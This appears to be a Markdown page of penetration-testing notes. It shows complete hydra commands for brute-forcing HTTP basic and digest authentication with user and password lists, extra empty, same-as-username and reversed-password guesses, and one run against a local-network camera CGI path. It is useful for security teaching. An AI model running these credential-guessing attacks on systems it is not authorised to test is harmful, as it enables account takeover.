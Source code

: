 
```sh
hydra -L users.txt -P words.txt www.site.com http-head /private/
# we provide users.txt as files containing users
# then words.txt as the password file and then we try
# a basic http authentication by using the http-head parameter
# then we provide the page /private/ which is the url path on above example url path is set to root / so we havent given any path in below hydra command
# where we are asked for credentials
```
![image](https://github.com/user-attachments/assets/0b8e2e3b-c951-4df8-992b-24575574f44d)




We can add with -e combinations to the already existing combinations provided 
from the users and password files in particular we can use `n` or `s` or `r` 
or all the combinations of them, their meaning is:

* `n` adds for each user also the null password
* `s` adds the combination of credentials username/username for each of the
    usernames
* `r` adds for each combination username/password also the reversed
    password/username

```sh
hydra -L users.txt -P words.txt www.site.com -e ns http-head /private/
# here we do the same thing as before, but we add combinations with
# `-e ns`, so we are also trying with an empty password for each
# of the users and with passwords equal to the username for each user
```


### HTTP Digest Authentication

```sh
hydra -l root -P test.txt -vV localhost http-get /forbidden-d2
# uses the username root with passwords from the file called test.txt
# it runs in verbose mode on localhost through http-get module we specify
# that this is an HTTP digest authentication found at path /forbidden-d2
```

```sh
hydra -l admin -P 1000_common_passwords.txt -s 8090 -f 192.168.1.4 http-get /get_camera_params.cgi
# uses the username admin with passwords from the file called
# 1000_common_passwords.txt it runs on port 8090 through 
# the -f flag it will stop as soon as it finds the first valid credentials
# the http-get module is specified to denote the presence of an HTTP digest
# authentication at the path /get_camera_params.cgi
```


### HTTP Forms

When it comes to HTTP login forms, we generally have to inspect the web
application, searching for messages which will appear on successful or failed
logins.
